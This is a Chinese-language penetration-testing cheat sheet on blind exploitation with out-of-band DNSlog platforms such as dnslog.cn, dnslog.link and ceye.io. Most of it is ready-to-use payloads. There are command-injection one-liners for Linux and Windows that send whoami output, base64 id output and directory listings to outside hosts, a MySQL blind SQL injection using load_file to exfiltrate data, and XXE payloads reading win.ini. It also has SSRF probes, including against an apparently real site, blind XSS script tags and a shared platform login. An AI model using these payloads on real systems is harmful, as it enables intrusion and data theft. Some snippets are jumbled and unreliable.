


# 漏洞盲打 + dnslog平台

#### dnslog.link,命令执行漏洞的时候搞起ls命令记录起来很利索，比dnslog.cn快：


http://admin.dnslog.link


#### ping 456.test.dnslog.link


判断：

​	https://admin.dnslog.link/api/dns/test/456/


缺点：登陆会暴露记录，虽然可以点击clear，单也不保证别人没存


#### windows与linux攻击技巧：

#### linux：

```
link
curl http://123.test.dnslog.link/`whoami` ping -c 1 `whoami`.123.test.dnslog.link

cn: 5ek72t.dnslog.cn
curl http://5axzi7.dnslog.cn/`whoami` ping -c 1 `whoami`.5ek72t.dnslog.cn
```


如果碰到内容有空格（换行符等），就会截断，只输出前面的，这时候可以利用编码来输出，但有输出字符数最大限制； 

curl http://test.dnslog.link/$(id|base64) 碰到ls这类多个输出的命令，直接使用脚本：

```shell
for i in $(ls /);do curl "http://$i.123.test.dnslog.link/";done; windows：for i in $(ls /);do curl "http://$i.5ek72t.dnslog.cn/";done; windows：5ek72t.dnslog.cn
```


#### windows：

利用HTTP请求：

```
for /F %x in ('whoami') do start http://test.dnslog.link/%x
```


将结果使用默认浏览器弹出；利用DNS请求：获取计算机名：

```
for /F "delims=/" %i in ('whoami') do ping -n 1 %i.test.dnslog.link
```


获取用户名：

```
for /F "delims=/ tokens=2" %i in ('whoami') do ping -n 1 %i.test.dnslog.link
```


不能编码输出，但利用powershell可以实现；dir有/b参数，不显示修改日期等信息，只显示文件名，所以可以弹出：

```
for /F %x in ('dir /b C:/') do start http://test.dnslog.link/[%x].jpg
```

某站ping工具命令执行漏洞：dnslog验证：


## 三大免费dns解析记录网站介绍

​		http://www.dnslog.cn

​		http://admin.dnslog.link 账号密码:test/123456

​		http://ceye.io


DNSLOG回显Demo

这样说原理很抽象，下面通过实际例子看下。有时候http://ceye.io访问太慢，推荐使用http://www.dnslog.cn平台或者t00ls的DNSLOG平台。下面以http://ceye.io 为例子。


http://ceye.io 这是一个免费的记录dnslog的平台，我们注册后到控制面板会给你一个二级域名：xxx.ceye.io,当我们把注入信息放到三级域名那里，后台的日志会记录下来


# sql盲注

不论是布尔型盲注还是时间型盲注，都需要频繁的跑请求才能够获取数据库中的值，在现代 WAF 的防护下，很可能导致 IP 被 ban。我们可以结合 DNSlog 完美快速的将数据取出。如遇到 MySql 的盲注时，可以利用内置函数 load_file() 来完成 DNSlog，load_file()不仅能够加载本地文件，同时也能对URL发起请求。

```sql
payload:1' and load_file(concat('\\',(select database()),'.123.test.dnslog.link\abc'))--+http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and load_file(concat('\\',(select database()),'.52i39v.ceye.io\abc'))--+
```


# RCE的盲打

| 操作系统 | 盲注方式        |
| -------- | --------------- |
| windows  | %variable%      |
| linux    | variable 反引号 |

此处使用公网一个 DVWA 靶场（ Windows 系统搭建）为例进行演示，Payload：

```
%WINDIR%.52i39v.ceye.io
```

如下所示：


如果是 Linux 环境，则 Payload 对应的应该为：

```
ping `whoami`.u4f95y.dnslog.cn
```


##### Windows 常用变量：

```
//变量 类型 描述

//%ALLUSERSPROFILE% 本地 返回“所有用户”配置文件的位置。

//%APPDATA% 本地 返回默认情况下应用程序存储数据的位置。

//%CD% 本地 返回当前目录字符串。

//%CMDCMDLINE% 本地 返回用来启动当前的 Cmd.exe 的准确命令行。

//%CMDEXTVERSION% 系统 返回当前的“命令处理程序扩展”的版本号。

//%COMPUTERNAME% 系统 返回计算机的名称。

//%COMSPEC% 系统 返回命令行解释器可执行程序的准确路径。

//%DATE% 系统 返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。

//%ERRORLEVEL% 系统 返回上一条命令的错误代码。通常用非零值表示错误。

//%HOMEDRIVE% 系统 返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。

//%HOMEPATH% 系统 返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。


//%HOMESHARE% 系统 返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。

//%LOGONSERVER% 本地 返回验证当前登录会话的域控制器的名称。

//%NUMBER_OF_PROCESSORS% 系统 指定安装在计算机上的处理器的数目。

//%OS% 系统 返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。

//%PATH% 系统 指定可执行文件的搜索路径。

//%PATHEXT% 系统 返回操作系统认为可执行的文件扩展名的列表。

//%PROCESSOR_ARCHITECTURE% 系统 返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。

//%PROCESSOR_IDENTFIER% 系统 返回处理器说明。

//%PROCESSOR_LEVEL% 系统 返回计算机上安装的处理器的型号。

//%PROCESSOR_REVISION% 系统 返回处理器的版本号。

//%PROMPT% 本地 返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。

//%RANDOM% 系统 返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。

//%SYSTEMDRIVE% 系统 返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。


//%SYSTEMROOT% 系统 返回 Windows server operating system 根目录的位置。

//%TEMP%和%TMP% 系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。

//%TIME% 系统 返回当前时间。使用与time /t命令相同的格式。由Cmd.exe生成。有关time命令的详细信息，请参阅 Time。

//%USERDOMAIN% 本地 返回包含用户帐户的域的名称。

//%USERNAME% 本地 返回当前登录的用户的名称。

//%USERPROFILE% 本地 返回当前用户的配置文件的位置。

//%WINDIR% 系统 返回操作系统目录的位置。
```


# XXE的盲打

进入靶场实践:

```
<?xml version = "1.0"?><!DOCTYPE note [<!ENTITY hacker "Tr0e">]><name>&hacker;</name>
```


构造读取本地文件的 Payload：

```
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" > ]><foo>&xxe;</foo>
```

假设这是一个 XXE 无回显的漏洞，或者说不清楚服务器是什么操作系统、不清楚文件组成，可以构造如下 DNSlog 相关的 Payload：

```
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://veojxg.dnslog.cn" > ]><foo>&xxe;</foo>
```


# ssrf-dnslog+实战案例

一、某翻译-dnslog

http://xxxx.xxx.com/webTransPc/index.html?from=zh-CHS&to=en&type=1&url=http://os1gxn.dnslog.cn




可以看到 DNSlog 平台成功记录访问请求，证明存在 SSRF 漏洞：




http://127.0.0.1/pikachu/vul/ssrf/ssrf_fgc.php?file=http://4zq94q.dnslog.cn/


刷新 DNSlog 服务器的记录，发现靶场发起的访问请求记录：

​		http://www.dnslog.cn/


# XSS的盲打+实战

在实战中能真正能构成致命性损伤的 XSS 类型就是储存型 XSS

有时在留言板提交的申请是不能回显在前台而是插入了后台页面或者数据库这时我们就要用盲打dnslog验证后台xss是否会触发

```
<script src=http://ylanjt.dnslog.cn></script>
<script src=http://os1gxn.dnslog.cn></script>
os1gxn.dnslog.cn
```

